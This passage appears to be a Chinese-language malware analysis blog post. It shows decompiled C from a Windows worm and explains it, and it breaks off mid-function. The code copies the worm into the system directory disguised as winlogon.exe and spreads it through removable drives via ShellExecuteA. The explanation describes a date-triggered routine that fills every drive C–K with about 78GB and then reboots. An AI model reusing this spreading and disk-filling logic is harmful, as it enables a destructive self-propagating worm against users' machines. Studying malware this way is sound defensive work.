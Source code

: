 {% highlight c %}
  sub_401150();
  GetCurrentDirectoryA(0x104u, &Buffer);
  wsprintfA(&RootPathName, aCCC, Buffer, v13, v14);
  v3 = GetDriveTypeA(&RootPathName);
  sub_40196A(aS, &Buffer);
  result = sub_40196A(aD, v3);
  if(v3 == 3) // DRIVE_FIXED
  {
    GetSystemDirectoryA(&FileName, 0x104u);
    wsprintfA(&Data, aCCCprogramFile, FileName, v7, v8);
    strcat(&Data, aSystem_caca);
    if(!sub_4012C0())
    {
      wsprintfA(&ExistingFileName, aSWinlogon_exe, &Buffer);
      sub_4011E0(&Data);
      CopyFileA(&ExistingFileName, NewFileName, 1);
    }
    sub_4012A0(&Data);
    sub_401580();
  }
  if(v3 == 2) // DRIVE_REMOVALVE
  {
    if(!sub_4012C0())
    {
      GetSystemDirectoryA(&Data, 0x104u);
      wsprintfA(&ExistingFileName, aSmydocument_ex, &RootPathName);
      wsprintfA(&FileName, aCCCprogramFile, Data, v10, v11);
      strcat(&FileName, aSystem_caca);
      sub_4012A0(&FileName);
      sub_4011E0(&FileName);
      CopyFileA(&ExistingFileName, NewFileName, 1);
      wsprintfA(&File, aSmydocument, &RootPathName);
      ShellExecuteA(0, Operation, &File, 0, 0, 1);
      sub_401580();
    }
    result = sub_4012C0();
    if(result)
    {
      wsprintfA(&File, aSmydocuments, &Buffer);
      result = (int)ShellExecuteA(0, Operation, &File, 0, 0, 1);
    }
  }
  return result;
{% endhighlight %}

下面具体分析流程。

首先执行`sub_401150`，判断当前日期是否在2011年4月1日到2011年5月2日之间，如果不是则什么也不做；如果是，则调用`sub_4010A0`，后重启计算机。`sub_4010A0`比较可恶，它从C到K尝试盘符，并调用`sub_401000`企图把每个存在的磁盘塞满（占用大约78GB空间）。

{% highlight c %}
int sub_401150()
{
  int result;
  struct _SYSTEMTIME SystemTime;

  *(_DWORD *)&SystemTime.wYear = 0;
  *(_DWORD *)&SystemTime.wDayOfWeek = 0;
  *(_DWORD *)&SystemTime.wHour = 0;
  *(_DWORD *)&SystemTime.wSecond = 0;
  GetLocalTime(&SystemTime);
  result = SystemTime.wDay + 100 * (SystemTime.wMonth + 100 * SystemTime.wYear);
  if ( result - 20110400 > 0 )
  {